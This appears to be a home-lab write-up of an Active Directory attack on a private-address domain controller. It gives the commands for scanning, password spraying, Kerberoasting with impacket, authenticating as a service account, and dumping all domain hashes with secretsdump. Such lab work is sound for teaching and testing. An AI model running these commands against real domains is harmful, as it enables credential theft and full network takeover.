




# ATTACK METHODOLOGY

The initial phase involved identifying active services and domain information within the network.

A network scan was performed to discover open ports and services running on the Domain Controller.

## Tools Used:

* **Nmap**
* **NetExec**

## Commands

`nmap -sC -sV 192.168.56.50`

`netexec smb 192.168.56.50`

<figure><figcaption></figcaption></figure>

The scan revealed key Active Directory services including SMB (445), LDAP (389), and Kerberos (88), confirming the presence of a Domain Controller.

<figure><figcaption></figcaption></figure>

## Initial Access (Password Spraying)

A password spraying attack was conducted to identify valid user credentials using commonly used passwords.

### Command

`netexec smb 192.168.56.50 -u users.txt -p Password123`

<figure><figcaption></figcaption></figure>

Valid credentials were identified for user1:
\
Abhi.local\user1 : Password123

## Credential Access (Kerberoasting)

Kerberoasting was performed to extract service account hashes associated with SPNs.

### Command

`impacket-GetUserSPNs Abhi.local/user1:Password123 -dc-ip 192.168.56.50 -request`

<figure><figcaption></figcaption></figure>

A Kerberos service ticket hash was successfully extracted for the svc\_sql account.

## Credential Validation & Privilege Escalation

The extracted credentials were validated and used to gain higher privileges within the domain.

### Command

`netexec smb 192.168.56.50 -u svc_sql -p SQL123`

<figure><figcaption></figcaption></figure>

The svc\_sql account was successfully authenticated with administrative privileges, confirming elevated access to the domain controller.

## Impact (Full Domain Compromise)

With administrative access, a full credential dump of the Active Directory database was performed.

### Command

`impacket-secretsdump Abhi.local/svc_sql:SQL123@192.168.56.50`

<figure><figcaption></figcaption></figure>

All domain credentials, including Administrator and krbtgt hashes, were successfully extracted, demonstrating full domain compromise.
